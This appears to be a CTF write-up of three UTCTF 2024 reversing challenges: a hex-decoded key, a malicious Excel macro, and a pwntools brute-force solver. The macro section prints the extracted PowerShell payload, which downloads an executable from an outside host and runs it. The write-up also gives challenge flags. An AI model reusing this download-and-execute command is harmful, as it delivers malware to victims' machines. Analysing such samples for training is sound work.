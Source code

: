 # UTCTF 2024
## Beginner: Basic Reversing Problem

In keygen function, the program consecutively added characters to the key.

![image](https://github.com/san601/CTF_Archive/assets/144963803/cef44d9d-982f-4bb4-addc-d3fc1fb89884)

Concatenating those characters and we got the flag.

```python
a = [
    0x75, 0x74, 0x66, 0x6c, 0x61, 0x67, 0x7b, 0x69, 0x5f, 0x63, 0x34, 0x6e,
    0x5f, 0x72, 0x33, 0x76, 0x21, 0x7d,
]
for i in a:
    print(chr(i), end='')
```

![image](https://github.com/san601/CTF_Archive/assets/144963803/84cb1da7-fe14-4940-b1b8-430b982b28b0)

## Fruit Deals

We got 2 macros in the file, let's just focus on the first one.
![image](https://github.com/san601/CTF_Archive/assets/144963803/dbbb6c1f-13ce-4b0a-9be0-603733d6e8c5)

Sheet1 and sheet2 were full of random Base64 stuffs
![image](https://github.com/san601/CTF_Archive/assets/144963803/fcd327de-3178-40ac-9e8f-fe58d4ff2c6b)

So basically, this macro check if a cell contained some string, if true, it put some part of a payload into a variable. This payload might be used to download some files.
![image](https://github.com/san601/CTF_Archive/assets/144963803/e5882d47-aff1-4325-8f9f-85c6cccc4b47)

Set a breakpoint just right before the macro execute the payload.
![image](https://github.com/san601/CTF_Archive/assets/144963803/bd1e358a-96e3-4d55-8b36-b830f26b5e24)

We got the payload
```
"poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""
```
It is clearly stated that the macro was going to download a file from 
```
http://fruit.gang/malware/banANA-Hakrz09182afd4.exe
```
So the flag is utflag{banANA-Hakrz09182afd4.exe}

## PES-128
After a while, I noticed that:
- Each character in the output string was not calculated based on a whole input string.
- The program treated our input as a string of hex bytes:
This was my input:
![image](https://github.com/san601/CTF_Archive/assets/144963803/9a8d78c6-d231-4bbe-95ed-a656085d0936)

This was how the program store my input:
![image](https://github.com/san601/CTF_Archive/assets/144963803/7a9183b7-1145-40be-9bbd-ca1feab07174)

This was my input after some calculation:
![image](https://github.com/san601/CTF_Archive/assets/144963803/46404e51-1210-44b1-a73a-ff239ef2c45a)

This was the output:
![image](https://github.com/san601/CTF_Archive/assets/144963803/46fb9de2-3ce1-40a7-9041-211ebde7b2f3)

With those idea in mind, we can now brute-forcing each character at a time, compare it with the encrypted flag 
Here is my script to cAptURe tHe fLaG.
```python
from pwn import *

enc_flag = '75ac713a945e9f78f657b735b7e1913cdece53b8853f3a7daade83b319c49139f8f655b0b77b'

flag = ''

flag_len = len(enc_flag)//2

for i in range(flag_len):
    for j in range(33, 126):
        binary_path = './PES'
        p = process(binary_path)
        p.sendline(flag + str(hex(j)[2:]))

        output = p.recvall().decode()
        output = output.split()
        current_length = len(output[1])
        if output[1] == enc_flag[:current_length]:
            print(chr(j), end='')
            flag += str(hex(j)[2:])
        p.close()

print(bytes.fromhex(flag))
```
![image](https://github.com/san601/CTF_Archive/assets/144963803/d3b4acb1-c6bc-4871-8fd9-c4e1fcc69397)

